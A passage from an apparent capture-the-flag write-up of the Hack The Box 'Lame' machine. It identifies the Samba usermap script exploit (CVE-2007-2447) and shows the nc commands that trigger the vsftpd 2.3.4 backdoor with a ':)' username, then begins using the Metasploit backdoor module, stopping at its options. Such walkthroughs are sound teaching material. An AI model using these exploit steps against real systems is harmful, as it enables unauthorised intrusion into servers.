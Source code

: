 
I’ll search for just `3.0` to allow for something that says like 3.0.19 <
3.0.21. The one that looks promising is:

    
    
    Samba 3.0.20 < 3.0.25rc3 - 'Username' map script' Command Execution (Metasploit)
    

This is CVE-2007-2447, often referred to as Samba usermap script.

## VSFTPD Exploit

### Without Metasploit

I wrote about this exploit in my [LaCasaDePapel writeup](/2019/07/27/htb-
lacasadepapel.html). It can be triggered by connecting to FTP and logging in
with a username ending in `:)`. I’ll try it with `nc`:

    
    
    root@kali# nc 10.10.10.3 21
    220 (vsFTPd 2.3.4)
    USER 0xdf:)
    331 Please specify the password.
    PASS 0xdf-not-a-password 
    

If it worked, I should be able to connect to a listener on Lame port 6200. But
it doesn’t work.

    
    
    root@kali# nc 10.10.10.3 6200
    Ncat: TIMEOUT.
    

### With Metasploit

I understand this exploit enough to know that it will be no different in
Metasploit, but I can demonstrate here. I’ll fire up `msfconsole`, and search
for it:

    
    
    msf5 > search vsftpd
    
    Matching Modules
    ================
    
       Name                                  Disclosure Date  Rank       Check  Description
       ----                                  ---------------  ----       -----  -----------
       exploit/unix/ftp/vsftpd_234_backdoor  2011-07-03       excellent  No     VSFTPD v2.3.4 Backdoor Command Execution
    

I’ll use it, and set the target:

    
    
    msf5 > use exploit/unix/ftp/vsftpd_234_backdoor
    msf5 exploit(unix/ftp/vsftpd_234_backdoor) > options
    